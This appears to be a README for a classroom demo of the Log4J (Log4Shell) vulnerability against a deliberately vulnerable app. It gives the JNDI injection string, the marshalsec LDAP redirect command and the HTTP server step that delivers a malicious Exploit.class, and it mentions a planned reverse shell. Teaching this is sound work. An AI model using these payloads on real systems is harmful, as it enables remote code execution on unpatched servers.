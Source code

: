 # Demos

## Plans
In our lecture, we plan to show a progression of malicious intent. From polluting the vulnerableApp logs to getting an application to open remotely and then finally, we'll attempt to set up a reverse shell to the application server in a real world example.

This demo focuses on getting an application to run from the vulnerableApp's server. This demo can be used to show the progression from polluting logs to opening an application by entering these strings respectively `${java:version}` and `${jndi:ldap://127.0.0.1:1389/Exploit}.`

## Demo 1
We have created a vulnerableApp which can be exploited via Log4J vulnerability. 

A basic description on what is happening is:
- vulnerableApp is running
- We as an attacker host a LDAP server and a HTTP server (which contains our Exploit.class, i.e. malicious code)
- Then the hacker sends a string like `${jndi:ldap://127.0.0.1:1389/Exploit}` as an input. 
- This vulnerableApp will then make the remote call to the LDAP server which redirects to our HTTP server which sends the Exploit.class to the vulnerableApp. The app then does class loading which runs our malicious code on their end.

## Requirements
- [ ] Max Java 1.8.18
- [ ] Log4J Version 2.14.1 (Core and API)
- [ ] Python3 (creating http server)

## Commands
All commands shd be run from the `/poc` directory

Start HTTP Server
```
python3 -m http.server 8000

```

Create LDAP Server and Connect to HTTP
```
java -cp ./target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8000/#Exploit"

```

Run the vulnerableApp and provide this string: `${jndi:ldap://127.0.0.1:1389/Exploit}` when prompted for input

You should see the effect of the command specified in Exploit.java on your system
